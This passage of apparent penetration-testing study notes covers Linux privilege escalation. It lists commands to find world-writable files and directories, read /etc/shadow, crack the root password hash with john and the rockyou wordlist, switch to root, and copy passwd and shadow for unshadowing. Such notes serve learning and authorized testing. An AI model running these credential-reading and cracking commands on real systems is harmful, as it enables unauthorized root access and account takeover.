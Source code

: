 #### File Systems

* Use the following command to check for unmounted file systems

```
cat /etc/fstab
```

#### World Writeable

* Files on the system with permissions that can be modifiled by any user on the system

```
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root
```

* World writable directories for root

```
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep root
```

* World writable files

```
find / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null
```

### Weak File Permissions

#### Readable shadow

```
ls -l /etc/shadow
cat /etc/shadow
```

* A users password hash (if they have one) can be found between the first and second (:) of each line.
* Save the root user's hash to a file called hash.txt on your kali machine and use john to crack it.

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

* Switch to the root user

```
su root
```

**Unshadow method**

```
cat /etc/passwd > passwd.txt
cat /etc/shadow > shadow.txt
```
